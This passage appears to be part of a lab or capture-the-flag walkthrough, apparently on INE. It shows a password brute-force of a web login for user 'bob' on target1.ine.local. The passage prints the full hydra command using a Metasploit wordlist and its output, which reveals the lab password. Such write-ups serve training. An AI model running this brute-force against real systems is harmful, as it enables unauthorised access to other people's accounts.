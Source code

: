 With this information let’s start with website, hope we find something useful there. It seems like we need to login in order to access the website. From the Scope we already know the username which is `bob` but still we need to find the password for that username, here comes the play of tool called hydra, with that we can brute force our way in, Here is the command to run the brute force against the target using hydra.

![alt text](/assets/img/imagea.png)

```bash
hydra -l bob -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt target1.ine.local http-get /
```

```bash
┌──(root㉿INE)-[~]                                                                                                                                                                       
└─# hydra -l bob -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt target1.ine.local http-get /                                                                       
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-05-21 15:02:56
[DATA] max 16 tasks per 1 server, overall 16 tasks, 1010 login tries (l:1/p:1010), ~64 tries per task
[DATA] attacking http-get://target1.ine.local:80/
[80][http-get] host: target1.ine.local   login: bob   password: password_123321
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-05-21 15:03:04
```

> Creds found! 
> 
> 
>bob:password_123321
